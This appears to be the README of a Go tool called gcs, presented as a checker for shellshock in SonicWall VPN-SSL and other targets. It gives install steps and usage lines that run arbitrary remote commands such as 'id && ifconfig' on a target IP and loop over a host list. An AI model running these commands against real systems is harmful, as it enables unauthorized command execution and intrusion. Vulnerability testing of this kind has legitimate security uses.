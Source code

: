 # gcs
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/gcs
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./gcs -i ; done
```
### Simple command - Default -c echo
```
▶ ./gcs -i x.x.x.x
```
### With commands
```
▶ ./gcs -i x.x.x.x -c id
▶ ./gcs -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gcs/blob/main/goshock_checker.png" width="90%"></p>
